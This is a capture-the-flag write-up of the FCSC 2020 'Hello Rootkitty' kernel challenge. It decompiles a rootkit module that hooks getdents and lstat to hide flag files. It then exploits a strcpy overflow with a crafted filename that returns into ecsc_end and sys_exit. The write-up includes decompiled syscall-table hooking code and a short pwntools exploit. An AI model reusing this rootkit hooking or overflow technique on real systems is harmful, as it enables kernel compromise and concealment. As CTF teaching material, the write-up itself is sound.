

# Hello Rootkitty - FCSC 2020

This is Pycatchown here, for a writeup of one of the most point-worthy pwn challenges of this year's FCSC edition.
It's a kernel based exploitation challenge.


**Introduction**

By clicking on the challenge, we can see that we are provided four things.
* An SSH client
* An `ecsc.ko` file
* A bzImage
* An Initramfs

Those things heavily guide us into thinking this will be a kernel based exploitation, for the simple
reason that all those files are there to build a virtual machine.
So, now, let's hit the SSH client in order to gather more informations.

```
➜  rootkitty ssh ctf@challenges1.france-cybersecurity-challenge.fr -p 4007
ctf@challenges1.france-cybersecurity-challenge.fr's password: 
ctf@rootkitty:~$ ls
bzImage  ecsc.ko  initramfs.cpio  wrapper  wrapper.c
ctf@rootkitty:~$
```

Okay, here again, our 3 files, and a wrapper.c which executes a hidden file within this directory, which is
a qemu launcher. The qemu script is as follows :
```bash
#!/bin/bash -p

STTY=$(stty -g)
stty intr ^-

TEMP=$(mktemp -d)
chgrp ctf ${TEMP}
chmod 730 ${TEMP}

echo "-----------------------------------------------------------------------------"
echo "To ease your exploit development, a secret folder shared between the host and"
echo "the vm will be created. You can access it at /mnt/share within the vm, and at"
echo "${TEMP} in the host. The folder will be deleted afterwards."
echo "-----------------------------------------------------------------------------"
echo ""
read -p "Press <Enter> to continue..."

timeout --foreground 300 /usr/bin/qemu-system-x86_64                  \
    -m 64M                                                            \
    -cpu kvm64                                                        \
    -kernel /home/ctf/bzImage                                         \
    -nographic                                                        \
    -append 'console=ttyS0 loglevel=3 oops=panic panic=1 kaslr nopti' \
    -initrd /home/ctf/initramfs.cpio                                  \
    -monitor /dev/null                                                \
    -fsdev local,id=exp1,path=${TEMP},security_model=mapped           \
    -device virtio-9p-pci,fsdev=exp1,mount_tag=ecsc

rm -rf "${TEMP}" 2> /dev/null
stty "${STTY}"
```

Let's check this VM.

```
ctf@rootkitty:~$ ./wrapper 
-----------------------------------------------------------------------------
To ease your exploit development, a secret folder shared between the host and
the vm will be created. You can access it at /mnt/share within the vm, and at
/tmp/tmp.iaueH01WQU in the host. The folder will be deleted afterwards.
-----------------------------------------------------------------------------

Press <Enter> to continue...
 _______  _______  _______  _______    ___   _  _______  ______    __    _  _______  ___
|       ||       ||       ||       |  |   | | ||       ||    _ |  |  |  | ||       ||   |
|    ___||       ||  _____||       |  |   |_| ||    ___||   | ||  |   |_| ||    ___||   |
|   |___ |       || |_____ |       |  |      _||   |___ |   |_||_ |       ||   |___ |   |
|    ___||      _||_____  ||      _|  |     |_ |    ___||    __  ||  _    ||    ___||   |___
|   |___ |     |_  _____| ||     |_   |    _  ||   |___ |   |  | || | |   ||   |___ |       |
|_______||_______||_______||_______|  |___| |_||_______||___|  |_||_|  |__||_______||_______|
/ $ ls
bin
dev
ecsc_flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
etc
home
init
lib
mnt
proc
root
run
sys
tmp
var
/ $ 
```

We're in a linux, according to the boot message, we have a shared directory, and there is a pretty intersting file on here.
let's check its content.

```
/ $ cat ecsc_flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XX 
cat: can't open 'ecsc_flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX': No such file or directory
/ $ file ecsc_flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXX 
/bin/sh: file: not found
/ $
```

What ? I was expecting a "No permission" error, but not a "File not found", plus, why can't `file` access it either ?

This is fishy.

---

**Let's reverse**

You remember when we said those three files were meant to boot a virtual machine ? Well, let's talk about them a bit.

A `.ko` extension stands for "Loadable Kernel Module". Those files are binaries containing code, just like a shared library,
except they follow some more rules, and are here to provide functions for the kernel. Those functions will be used latter 
on by your computer, to perform any kind of tasks. the bzImage and the Initramfs are both directly related the virtual machine build.
You can see both of them as a .zip archive of a whole computer. The first one may be intersting though, since it contains the original Kernel.

I don't believe we would be provided a `.ko` file it weren't for some custom module loaded into the kernel. Let's reverse it.



I previously said `.ko` files follows some rules, here they are. When you want to develop your own kernel module, you have to provide at least
three things.
* An `init_module` function to tell the kernel where to load your module (as syscalls)
* An actual function, you can add as many as you want.
* A `my_module_end` function, to give your kernel a way to unload your module.

All those things are here.

We're heavily tempted to check the `ecsc_sys` functions, but for now, let's start with the `init_module` function.

Ida decompiles it this way : 
```c
__int64 init_module()
{
  _QWORD *v0; // rax
  unsigned __int64 v1; // rdx
  __int64 v2; // rcx
  __int64 v3; // rcx
  __int64 (__fastcall *v4)(_QWORD, _QWORD); // rcx

  v0 = (_QWORD *)kallsyms_lookup_name("sys_call_table");
  my_sys_call_table = (__int64)v0;
  v1 = __readcr0();
  original_cr0 = v1;
  __writecr0(v1 & 0xFFFFFFFFFFFEFFFFLL);
  v2 = v0[217];
  v0[217] = ecsc_sys_getdents64;
  ref_sys_getdents64 = v2;
  v3 = v0[78];
  v0[78] = ecsc_sys_getdents;
  ref_sys_getdents = v3;
  v4 = (__int64 (__fastcall *)(_QWORD, _QWORD))v0[6];
  v0[6] = ecsc_sys_lstat;
  ref_sys_lstat = v4;
  __writecr0(v1);
  return 0LL;
}
```

What's interesting here, it's too see that the developper didn't create his own syscalls in order to load his module.
He, instead, made them took the place of sys_getdents and sys_lstat.
Those two syscalls, are very usefull in all bash commands who will make use of file informations.
* `sys_getdents` is a syscall that helps you get informations about all files in a given folder. `readdir` is a C function that wraps it.
* `sys_lstat` gives you all kind of specific information for one given path. `lstat` is a C function that wraps it.

So, for the moment this module is loaded, we can expect all file related commands to have an unexpected behaviour. That may explains
why our `cat` failed, since the path we gave it was taken from `ls`, which needs `sys_getdents` and `sys_lstat` at some point to function.

Let's turn this undefined behaviour into a defined one.

```c
__int64 __fastcall ecsc_sys_lstat(const char *a1, __int64 a2)
{
  __int64 result; // rax
  signed __int64 v3; // rax
  signed __int64 v4; // [rsp-20h] [rbp-20h]
  __int64 v5; // [rsp-18h] [rbp-18h]

  if ( !strstr(a1, "ecsc_flag_") )
    return ref_sys_lstat(a1, a2);
  *(_QWORD *)a2 = 0LL;
  *(_QWORD *)(a2 + 8) = 0LL;
  *(_QWORD *)(a2 + 16) = 0LL;
  *(_QWORD *)(a2 + 24) = 33024LL;
  *(_DWORD *)(a2 + 32) = 0;
  *(_QWORD *)(a2 + 40) = 0LL;
  *(_QWORD *)(a2 + 48) = 0LL;
  do_gettimeofday(&v4, "ecsc_flag_");
  if ( v4 > 9223372035LL )
    v3 = 0x7FFFFFFFFFFFFFFFLL;
  else
    v3 = 1000 * v5 + 1000000000 * v4;
  *(_QWORD *)(a2 + 72) = v3;
  *(_QWORD *)(a2 + 88) = v3;
  *(_QWORD *)(a2 + 104) = v3;
  *(_QWORD *)(a2 + 56) = 0LL;
  result = 0LL;
  *(_QWORD *)(a2 + 64) = 0LL;
  return result;
}
```

Whenever the path we give to this function doesn't contains `ecsc_flag_` in it, it just call the real `lstat`
syscall, if it doesn't, it apparently set a lots of variables with hard-coded values. Ida can't know it, but following the manual
of lstat, we can understand that those values are actually a `stat` structure. For exemple, we know the fifth element of this structure
is the uid. The fifth element is preceeded with four 64bits values, which equals to four times eight, so our uid should be at 
`startStructAddr + 32`. We see this value is equal to 0, which is the uid of root. So if we're right, doing a `ls -l` should display
us a uid of 0 for all files that contains `ecsc_flag_` in their name.

We had a shared directory, let's create a `ecsc_flag_lol` file, we will own it, and surely not as root.
For the sake of comfort, I built my own qemu instance without any timeout, and with my own shared dictory.
So, for now on, "host" will be the term I will use to describe my machine, and "guest", the on used for the virtual machine.

`➜  dev touch ecsc_flag_lol && ls -l ecsc_flag_lol` in our shared directory in host gives us the following output.
```
-rw-r--r--. 1 baptistemayaud baptistemayaud 0  4 mai   09:34 ecsc_flag_lol
```

Looks normal. Now let's try it in guest.
```
/mnt/share $ ls -l
total 4
-r--------    0 root     root             0 Jan  0  1900 ecsc_flag_XXX
```

As expected, it shows our file being own as root, plus a lots of 0 values. It definitely matches the fact that this `lstat`
fake module hijacks the real one, and gives false informations for files with `ecsc_flag_` in them.
Nowhere in the code of `lstat` do I see an explaination for the alteration of my filename, which displays a bunch of `X` instead of `lol`.
Plus, lstat doesn't provides any filename in its `stat` structure. This probably have to do with `getdents`.

```c
__int64 __fastcall ecsc_sys_getdents64(__int64 a1, __int64 a2)
{
  __int64 v2; // rbx
  __int64 v3; // rax
  __int64 v4; // r13
  __int64 v5; // rdx
  unsigned __int64 v6; // r8
  signed __int64 v7; // rcx
  const char *v8; // rdi
  _BYTE *v9; // rsi
  bool v10; // cf
  bool v11; // zf
  char *v12; // rax
  char *v13; // rcx
  int v14; // esi
  unsigned int v15; // edx
  bool v16; // zf
  signed __int64 v17; // rsi
  unsigned __int64 v18; // rax
  unsigned int v20; // edx
  unsigned int v21; // eax
  __int64 v22; // rsi
  __int64 v23; // [rsp-68h] [rbp-68h]
  signed __int64 v24; // [rsp-5Eh] [rbp-5Eh]

  v2 = a2;
  v3 = ref_sys_getdents64();
  v4 = v3;
  if ( v3 > 0 )
  {
    v5 = v3;
    while ( 1 )
    {
      v6 = *(unsigned __int16 *)(v2 + 16);
      v7 = 10LL;
      v8 = "ecsc_flag_";
      v9 = (_BYTE *)(v2 + 19);
      v10 = v5 < v6;
      v5 -= v6;
      v11 = v5 == 0;
      do
      {
        if ( !v7 )
          break;
        v10 = *v9 < (const unsigned __int8)*v8;
        v11 = *v9++ == *v8++;
        --v7;
      }
      while ( v11 );
      if ( (!v10 && !v11) == v10 )
        break;
      v2 += v6;
      if ( v5 <= 0 )
        return v4;
    }
    v12 = strcpy((char *)&v23, (const char *)(v2 + 19));
    v13 = v12;
    do
    {
      v14 = *(_DWORD *)v12;
      v12 += 4;
      v15 = ~v14 & (v14 - 16843009) & 0x80808080;
    }
    while ( !v15 );
    v16 = (unsigned __int16)(v15 & 0x8080) == 0;
    if ( !(v15 & 0x8080) )
      LOBYTE(v15) = BYTE2(v15);
    if ( v16 )
      v12 += 2;
    v17 = (signed __int64)(v13 + 10);
    v18 = &v12[-__CFADD__((_BYTE)v15, (_BYTE)v15) - 3] - v13 - 10;
    if ( v18 >= 0x40 )
      LODWORD(v18) = 64;
    if ( (unsigned int)v18 >= 8 )
    {
      v24 = 6365935209750747224LL;
      *(_QWORD *)(v17 + (unsigned int)v18 - 8) = 6365935209750747224LL;
      if ( (((_DWORD)v18 - 6) & 0xFFFFFFF8) >= 8 )
      {
        v20 = (v18 - 6) & 0xFFFFFFF8;
        v21 = 0;
        do
        {
          v22 = v21;
          v21 += 8;
          *(_QWORD *)&v13[v22 + 16] = 6365935209750747224LL;
        }
        while ( v21 < v20 );
      }
    }
    else if ( v18 & 4 )
    {
      *(_DWORD *)(v13 + 10) = 1482184792;
      *(_DWORD *)(v17 + (unsigned int)v18 - 4) = 1482184792;
    }
    else if ( (_DWORD)v18 )
    {
      v13[10] = 88;
      if ( v18 & 2 )
        *(_WORD *)(v17 + (unsigned int)v18 - 2) = 22616;
    }
    strcpy((char *)(v2 + 19), v13);
  }
  return v4;
}
```

This big function here, is the Ida pseudo code of the function that hijacked the real getdents, this one is pretty big, and since we're on a CTF, I'd rather go to the essential.
I'm looking for an explaination of two last things :
* How does this module will help me in exploitation ?
* Why can't `ls` give me the right filenames of `ecsc_flag_` files ?

This means we're looking for two things, a bug, and anything in the code that could mean a filename change.

For the bug, it's pretty simple, our super pwner eyes catches two `strcpy` function on which we have the controle of one of the parameters, one is here for exemple, 
`v12 = strcpy((char *)&v23, (const char *)(v2 + 19));`. We control the second parameter, src, or here, v2, which is, at the beginning defined as a pointer in a2, our second function's argument. According to the documentation, we believe a2 (so, v2) is a pointer to a `dirent` structure, which holds informations about a file, here again.
```c
struct dirent {
    long     d_ino;              
    off_t    d_off;              
    unsigned short d_reclen;     
    char     d_name [NAME_MAX+1];
}
```
According to the above structure and the same kind of simple calculus we've done for the `stat` struct, `direntStructAddr + 18` = d_name, aka our filename, so `(const char *(v2 + 19)` has great chances to be a filename.

Since pointer to filename is alterated over the function, we believe here is the reason the filenames appears as `X`. We don't really need to dig deeper at this point, what we do need, are some tests.

Since we're in a pwn challenge, the most straightforward thing to do, is to try to overflow. Let's create a file with `ecsc_flag_` in it, which has a really long filename.

```
➜  dev python -c 'open("ecsc_flag_" + "a" * 200, "w+").close()'
➜  dev ls
ecsc_flag_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Okay, now, let's see what happens in guest if I try to `ls` our shared folder.

```
/mnt/share $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 59 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9d68c1a12200 task.stack: ffff9f730009c000
RIP: 0010:0x6161616161616161
RSP: 0018:ffff9f730009ff38 EFLAGS: 00000282
RAX: 0000000000000150 RBX: 6161616161616161 RCX: 0000000000000000
RDX: 00007ffcbaa0e30e RSI: ffff9f730009ff93 RDI: 00007ffcbaa0e23b
RBP: 6161616161616161 R08: ffff9f730009fed0 R09: ffffffffc0077024
R10: ffff9f730009fec0 R11: 0000000000000000 R12: 6161616161616161
R13: 6161616161616161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffb5236000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000002163138 CR3: 0000000001a88000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6161616161616161 RSP: ffff9f730009ff38
---[ end trace a6caabeee7bbb906 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x33800000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffff)
Rebooting in 1 seconds..
```

A crash, plus RIP is set to eight 0x61 which are our 'a', well, looks like we got it !

---

**Exploitation**

For now on, what do we want is to get rid of this custom module. It prevents us from knowing the name of the file we believe is the flag.
We know that our entry is filenames. So, if we put a `\x00`, it will be our last characters.
This means that we can't return to anything that isn't in the kernel.
The reason for that is simple, as you may know, memory is segmented. The kernel segment is the highest of them all, creating addresses that will
look like `0xffffffffc0077024`. .text Segment however, is ways lower. It means that addresses will look like `0x0000000000449d72`. Since don't rewrite, but overwrite,
if we say we want to overwrite our first kernel address with the user address, keeping in mind that our string stops at the first `\x00` since filenames can't contain any,
we would end up with something like `0xffffffffc0449d72`, which, obviously, is not at all the address we wanted.

We said that, to unload modules, we had to provide a function to the kernel. This function here is `ecsc_end`. Since we want to get rid of this module, technically,
all we have to do is to call this function, and manage to quit our program without crashing.

Our plan is simple. We get the address of `ecsc_end` from `/proc/kallsyms` (a file which contains kernel addresses), we get the address of `sys_exit` the same way,
and we do a buffer overflow in order to call both of them sequentially.

Our final exploit looks like that :
```python
#!/bin/python

import os
from pwn import *

os.system("rm ecsc*")

payload = b"ecsc_flag_"
payload += b"a" * 102 + p64(0xffffffffc033f36e) + p64(0xffffffff9603a390) # with our two addresses being ecsc_end and sys_exit
payload = payload.replace(b"\0", b"")

f = open(payload, "w+").close()
```

All we'll have to do once we have load the guest, is to get the address of ecsc_end and sys_exit.


Guest:
```
/ $ cd mnt/share/
/mnt/share $ ls
ex          exploit.py
/mnt/share $ cat /proc/kallsyms | grep  "ecsc_end\|sys_exit"
ffffffff8663a390 T sys_exit
ffffffff8663a420 T sys_exit_group
ffffffffc010436e t ecsc_end     [ecsc]
/mnt/share $ 
```

Host:
```
➜  dev ./exploit.py 
➜  dev ls
'ecsc_flag_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaan'$'\363''3'$'\300\377\377\377\377\220\243\003\226\377\377\377\377'
 ex
 exploit.py
```

We, then perform a `ls` on guest in order to call the vulnerable kernel function.

```
/mnt/share $ ls
/mnt/share $ 
```
Okay, we called `ecsc_end` and `sys_exit`, it didn't crashed, let's see if it worked.

```
/mnt/share $ cd /
/ $ ls
bin                 home                proc                tmp
dev                 init                root                var
ecsc_flag_REDACTED  lib                 run
etc                 mnt                 sys
/ $ cat ecsc_flag_REDACTED 
ECSC{REDACTED}
/ $ 
```

Yay ! Success, all we have to do now, is exactly the same on the remote ssh server, and we're done.

Thank you for reading, hope you enjoyed this writeup, and special thanks to the author of this challenge, which was really fun !

This was Pycatchown for ya', keep hacking !
